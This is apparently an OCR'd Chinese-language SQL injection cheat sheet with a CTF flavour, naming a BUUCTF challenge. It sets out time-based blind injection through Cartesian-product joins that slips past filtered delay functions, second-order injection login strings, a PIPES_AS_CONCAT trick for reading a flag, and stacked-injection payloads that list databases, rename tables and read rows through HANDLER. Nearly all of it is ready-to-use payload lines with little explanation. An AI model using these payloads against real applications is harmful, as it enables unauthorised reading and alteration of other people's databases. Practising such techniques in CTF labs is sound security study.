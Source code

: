 ## 笛卡尔积时间盲注

```
当过滤了各种延时函数，当可以用用笛卡尔积产生延时效果

  
/?id=1 union select * from OPENQUERY([mysql],'select if(ord(mid((select SCHEMA_NAME frOm iNfOrmAtiOn_schEma.SCHEMATA limit 3,1),1,1))=97,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B,information_schema.columns C),0)')


/index.php?id=1'or+elt(1>2,(SELECT+group_concat('1')+FROM+information_schema.columns+A,+information_schema.columns+B))+or'2


SELECT * from database.tableA,database.tableB
```

## 二次注入

```
在插入语句中传入admin'or'   admin'#   admin"#

先登录，后修改密码

系统信任从数据库取出的数据安全
```



## 猜测sql语句

``` 
sql_mode 设置了 PIPES_AS_CONCAT 时，|| 就是字符串连接符，相当于CONCAT() 函数
当 sql_mode 没有设置 PIPES_AS_CONCAT 时 （默认没有设置），|| 就是逻辑或，相当于OR函数


当sql语句可能为 

select $_POST[‘query’] || flag from Flag

①可以传参*,1即可拼接语句成：select *,1 from Flag

②:1;set sql_mode=PIPES_AS_CONCAT;select 1

拼接语句成select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag
```



## 堆叠注入（buuctf随便注）
```sql
1;show databases;
1';show databases;#
1';show tables;--+
1'; show columns from 'words';#
1'; show columns from `1919810931114514`;#
	desc tableName;#

1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) ;show columns from words;#


handler `1919810931114514` open as `a`;handler `a` read next;

```